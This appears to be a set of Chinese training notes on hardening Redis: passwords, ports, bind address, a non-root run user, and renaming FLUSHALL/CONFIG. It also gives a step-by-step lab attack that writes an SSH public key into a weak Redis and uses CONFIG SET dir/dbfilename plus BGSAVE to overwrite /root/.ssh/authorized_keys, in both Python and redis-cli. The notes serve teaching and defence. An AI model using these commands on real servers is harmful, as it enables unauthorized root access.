









```### 此资源由 58学课资源站 收集整理 ###
	想要获取完整课件资料 请访问：58xueke.com
	百万资源 畅享学习

```


美好的第99天。。。。


# 04-redis安全篇

redis被攻击，作为突破口，服务器惨遭毒手的事太常见了。

大多数云服务器被攻击，都是redis，mongodb等数据库被入侵。

因此修改端口，密码，以及注意bind运行地址，是必须。

思考是否要暴露redis到公网。

# 1.设置,密码、端口,开启安全模式,redis运行用户（你的redis是暴露对外公网的，保证安全性）

- 密码
- 端口
- 安全模式
- 运行用户


你的redis，要以什么用户去运行！！很重要。

## 注意redis的运行用户




```
1 ~ 65535 


daemonize yes
bind 0.0.0.0
port 26379


# 实例配置

[root@db-51 ~]#
[root@db-51 ~]#cat /opt/redis_6379/conf/redis_6379.conf 
daemonize yes
bind 0.0.0.0
port 26379
requirepass linux0224
protected-mode yes
pidfile /opt/redis_6379/pid/redis_6379.pid
logfile /opt/redis_6379/logs/redis_6379.log

dir /redis_db/


appendonly yes
appendfilename "redis_appendonly.aof"
appendfsync everysec


dbfilename redis_dump.rdb
save 60  2000


aof-use-rdb-preamble yes 
[root@db-51 ~]#


# 此时的如python客户端，就得进行端口制定，密码链接才行。

import redis
conn=redis.StrictRedis(host='10.0.0.51',port=26379,password='linux0224')
conn.dbsize()


```








```
修改配置文件

先大家看看，redis自身提供的一堆参数，都有哪些，肯定是结合生产环境去调整的

看看redis默认开启的参数
[root@db-51 /opt/redis]#grep -i '^[a-Z]' redis.conf 
bind 127.0.0.1
protected-mode yes
port 6379
tcp-backlog 511
timeout 0
tcp-keepalive 300
daemonize no
supervised no
pidfile /var/run/redis_6379.pid
loglevel notice
logfile ""
databases 16
always-show-logo yes
save 900 1
save 300 10
save 60 10000
stop-writes-on-bgsave-error yes
rdbcompression yes
rdbchecksum yes
dbfilename dump.rdb
dir ./
replica-serve-stale-data yes
replica-read-only yes
repl-diskless-sync no
repl-diskless-sync-delay 5
repl-disable-tcp-nodelay no
replica-priority 100
lazyfree-lazy-eviction no
lazyfree-lazy-expire no
lazyfree-lazy-server-del no
replica-lazy-flush no
appendonly no
appendfilename "appendonly.aof"
appendfsync everysec
no-appendfsync-on-rewrite no
auto-aof-rewrite-percentage 100
auto-aof-rewrite-min-size 64mb
aof-load-truncated yes
aof-use-rdb-preamble yes
lua-time-limit 5000
slowlog-log-slower-than 10000
slowlog-max-len 128
latency-monitor-threshold 0
notify-keyspace-events ""
hash-max-ziplist-entries 512
hash-max-ziplist-value 64
list-max-ziplist-size -2
list-compress-depth 0
set-max-intset-entries 512
zset-max-ziplist-entries 128
zset-max-ziplist-value 64
hll-sparse-max-bytes 3000
stream-node-max-bytes 4096
stream-node-max-entries 100
activerehashing yes
client-output-buffer-limit normal 0 0 0
client-output-buffer-limit replica 256mb 64mb 60
client-output-buffer-limit pubsub 32mb 8mb 60
hz 10
dynamic-hz yes
aof-rewrite-incremental-fsync yes
rdb-save-incremental-fsync yes
[root@db-51 /opt/redis]#


```


## 密码验证，redis-cli客户端链接

```
[root@db-51 ~]#redis-cli -p 26379
127.0.0.1:26379> dbsize
(error) NOAUTH Authentication required.
127.0.0.1:26379> 
127.0.0.1:26379> auth linux0224
OK
127.0.0.1:26379> dbsize
(integer) 30006
127.0.0.1:26379> 


[root@db-51 ~]#
[root@db-51 ~]#redis-cli -p 26379 -a linux0224 dbsize


```

## redis运行用户，降低为普通用户的redis




```
1. 写systemctl脚本，通过systemd程序去管理redis进程，且制定运行用户

cat > /usr/lib/systemd/system/redis.service <<'EOF'
[Unit]
Description=redis service by www.yuchaoit.cn
After=network.target
After=network-online.target
Wants=network-online.target

[Service]
Type=notify
ExecStart=/usr/local/bin/redis-server /opt/redis_6379/conf/redis_6379.conf --supervised systemd
ExecStop=/usr/local/bin/redis-cli shutdown
User=redis
Group=redis
RuntimeDirectory=redis
RuntimeDirectoryMode=0755

[Install]
WantedBy=multi-user.target
EOF


2. 想让redis以普通用户去运行
- 修改所有相关的文件，改为redis
- 用sudo -u 用户名的方式，主动制定运行用户


[root@db-51 ~]#chown -R redis.redis /redis_db/
[root@db-51 ~]#chown -R redis.redis /opt/redis_6379/

[root@db-51 ~]#
[root@db-51 ~]#id redis
uid=1001(redis) gid=1001(redis) groups=1001(redis)
[root@db-51 ~]#
[root@db-51 ~]#grep redis /etc/passwd
redis:x:1001:1001::/home/redis:/sbin/login

[root@db-51 ~]#chown -R redis.redis /usr/local/bin/redis-*
[root@db-51 ~]#
[root@db-51 ~]#ll /usr/local/bin/redis-server 
-rwxr-xr-x 1 redis redis 4058352 Aug  6 11:58 /usr/local/bin/redis-server

查看结果

[root@db-51 ~]#redis-cli -a linux0224 --raw -p 26379 get name
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
看懂刷111
[root@db-51 ~]#


[root@db-51 /redis_db]#redis-cli -a linux0224 -p 26379
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
127.0.0.1:26379> 
127.0.0.1:26379> 
127.0.0.1:26379> dbsize
(integer) 30006
127.0.0.1:26379> BGSAVE
Background saving started
127.0.0.1:26379> 
127.0.0.1:26379> 
127.0.0.1:26379> BGREWRITEAOF
Background append only file rewriting started
127.0.0.1:26379> 
127.0.0.1:26379> 
127.0.0.1:26379> exit
[root@db-51 /redis_db]#
[root@db-51 /redis_db]#ll
total 960
-rw-r--r-- 1 redis redis 488018 Aug 18 18:26 redis_appendonly.aof
-rw-r--r-- 1 redis redis 488018 Aug 18 18:26 redis_dump.rdb


```


# 2.redis远程连接（python）

```
conn=redis.StrictRedis(host='10.0.0.51',port=26379,password='linux0224')
```


# 3.禁用危险命令

能够将一些命令，重命名，以实现防止运维误操作


```
flushdb 清空当前库的key
flushall 清空所有库的key

config 动态调整redis配置命令
config get
127.0.0.1:26379> config get requirepass
1) "requirepass"
2) "linux0224"

# 临时，设置redis配置信息
# 永久生效，阿是写入配置文件

127.0.0.1:26379> config set requirepass laoliu66
OK

用新密码登录

[root@db-51 /redis_db]#
[root@db-51 /redis_db]#redis-cli -a laoliu66 -p 26379
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
127.0.0.1:26379> ping
PONG
127.0.0.1:26379> 


```


## 背景


## 还有哪些危险命令？


## 怎么禁用或重命名危险命令？

```bash
修改配置文件，加入rename-command 指令关闭危险命令即可
[root@db-51 /redis_db]#cat /opt/redis_6379/conf/redis_6379.conf 
daemonize yes
bind 0.0.0.0
port 26379
requirepass linux0224
protected-mode no
pidfile /opt/redis_6379/pid/redis_6379.pid
logfile /opt/redis_6379/logs/redis_6379.log

dir /redis_db/


appendonly yes
appendfilename "redis_appendonly.aof"
appendfsync everysec


dbfilename redis_dump.rdb
save 60  2000


aof-use-rdb-preamble yes 


rename-command KEYS     "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX"

rename-command FLUSHALL "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX1"

rename-command FLUSHDB  "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX2"

rename-command CONFIG   "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX3"
[root@db-51 /redis_db]#


[root@db-51 /redis_db]#
[root@db-51 /redis_db]#redis-server /opt/redis_6379/conf/redis_6379.conf 
[root@db-51 /redis_db]#
[root@db-51 /redis_db]#!ps
ps -ef|grep redis
root       6558      1  0 18:45 ?        00:00:00 redis-server 0.0.0.0:26379
root       6563   5952  0 18:45 pts/1    00:00:00 grep --color=auto redis
[root@db-51 /redis_db]#


```


# 2.性能测试

```
看看你的小霸王学习，让redis能发挥多大的性能
只显示压测结果
发出1000个请求

redis-benchmark -h 10.0.0.51 -p 26379  -n 10000 -q

redis让你以set命令进行压测，发出100万个请求，总共写入1000万个key

$ redis-benchmark -t set -n 1000000 -r 100000000


```




# 3.redis入侵攻击




## 前提环境（也是你防御手段）




```
1. 准备一个，较弱的redis，也有密码，也有端口，但是太简单，黑客

虽然是有密码，和改端口的redis，但是可能导致密码台简单，还是可能被攻击

[root@db-51 ~]#cat /opt/redis_6379/conf/redis_6379.conf 
daemonize yes
bind 0.0.0.0
port 16379
requirepass linux0224
protected-mode yes
pidfile /opt/redis_6379/pid/redis_6379.pid
logfile /opt/redis_6379/logs/redis_6379.log

dir /redis_db/


appendonly yes
appendfilename "redis_appendonly.aof"
appendfsync everysec


dbfilename redis_dump.rdb
save 60  2000


aof-use-rdb-preamble yes 


2.攻击准备，黑客的机器
本地生成公私钥
$ ls ~/.ssh
id_rsa  id_rsa.pub  known_hosts  known_hosts.old


【将本地的公钥，记录，然后写入redis】

先去报自己能链接 目标redis
python 客户端
redis-cli客户端 
只要能写入本地的公钥到 redis里，为 key-value就行
听懂111

# 1.确保你已经链接上了，这个较弱的redis

# 2. 写入key value
set 写入string类型


# 对redis安全加固维护，以及利用bash，python，作为客户端，进行反序列化攻击演练

>>> import redis
>>>
>>> conn=redis.StrictRedis(host='10.0.0.51',port=16379,password='linux0224')

>>> conn.set('ssh-key','\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDO8ESodYy9GL7DZmvqLso650cBBR3H+c3jG+35+FZRl/cnEL9X37Ahp84pL0o4rVXJ0o8Zlv6xGNG7H+ZQKOaMzgDp3blrCg4+V5rvvhUtn0JiBV/ycuDXt4HkRfaZ8Lxq7T6iDjRVTe8IrYctzjQVIfitiPTG/oheYaPnvLmW52uwg9YAG4p6nC5QYg5x7ltk+Ua2lYbr/UL5+h8E6HtqRqR5TfEKJR60cunYoXEEA6PRYYgL1jy+SQQVdhR9EF6k95KECZAa/W6rw4VrI7kRFVltbGQP5qMmb78loT91Ed6R74ycay4mcn2CwAZLONt024wwZGpWIQbmJS5wIMJquMoL8vgj5kqwxOA1JmLcYbIf7oouwyPcZnZ0vtL8vZBjnV+gYywltKAg6N7hYkOMut/SWupyTteLEgJ1NkYqB6bpXswkpmKLzFJVDhg5LJBPu4UtQ7vgYMFdwcehHb20Jb9FVq/hF4O6ewQGdO8OCaXnb8YCKVuPrm2q3vkW560= www.yuchaoit.cn\n\n')
True

# 修改redis的配置参数，dir，改为后面的这个字符串

>>> conn.config_set('dir','/root/.ssh')
True
>>>

修改dbfilename
>>> conn.config_set('dbfilename','authorized_keys')
True
>>>

>>> conn.config_get('dbfilename')
{'dbfilename': 'authorized_keys'}
>>>
>>> conn.config_get('dir')
{'dir': '/root/.ssh'}
>>>
>>>
>>> conn.config_get('requirepass')
{'requirepass': 'linux0224'}
>>>

>>> conn.bgsave()
True
>>>
# 将数据持久化，生成 /root/.ssh/authorized_keys

# 直接哪客户端测登录
# 踩坑，发现不好使
#免密登录
ssh root@10.0.0.51
linux认证机制 读取 /root/.ssh/authorized_keys，找到公钥信息
写入了一大堆数据

# 踩坑，先放着，python构造字符串的知识点
# 搞定了，
基于python，实现让windows免密登录 51机器
通过redis的恶意数据反序列化


# 用linux去完成这个redis反序列化的操作
# 52 登录51


[root@db-52 ~]#(echo -e "\n";cat /root/.ssh/id_rsa.pub;echo -e "\n")>ssh_key
[root@db-52 ~]#
[root@db-52 ~]#
[root@db-52 ~]#cat ssh_key 


ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpqB2fYlCLIc33AGZlJE182KNnlIA1sG+zNsk2qWWSG24o2ZkL8JiUkXdx5UNRBkTJk8VvS5/YoLomag1yXuQaNj3BExU/y10awJsTkBNpn5K0QvO76KCyQPxEwr/vne+UtWKdS+SXx9YHktnG5YZu/BGjAjAEqvOPoknvQj+bWXX0b2i7ebo4ybaF4A40PHlU+f3Q3DVL8LrAL2gUOmifK0YG1zkhbBUW5xXtNKzZw9Juh6p4FTPw4JR53YaUI1wBEz7gzaO2c3oZYlHYvG+Px+iJZs4YI1lGCItW0LdaiYCtCkshSs7HRqTYdSKlwBFxCoVo4iXaWwXOeoL1XY5X root@db-52


cat ssh_key | redis-cli -h 10.0.0.51 -p 16379 -a linux0224  -x set ssh_key

持久化数据，恶意篡改  /root/.ssh/authorized_keys

redis-cli -h 10.0.0.51 -p 16379 -a linux0224   bgsave
# 看懂基于redis，config动态修改配置，结合bash，python的篡改玩法，刷111


12.00继续


```








